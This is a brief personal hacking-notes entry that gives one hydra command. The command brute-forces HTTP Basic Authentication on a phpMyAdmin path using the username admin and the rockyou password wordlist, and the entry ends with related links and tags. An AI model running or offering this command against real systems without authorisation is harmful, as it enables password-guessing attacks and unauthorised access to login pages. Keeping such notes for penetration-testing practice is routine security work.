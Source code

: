 # hydra brute force HTTP Basic Authentication
```bash
hydra -l admin -V -P /usr/share/wordlists/rockyou.txt -s 80 -f $IP http-get /phpmyadmin/ -t 15
```

# Related
- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- ~/kb/hacking/commands/hydra.md

Tags:
    #assorted #command #hacking #hydra
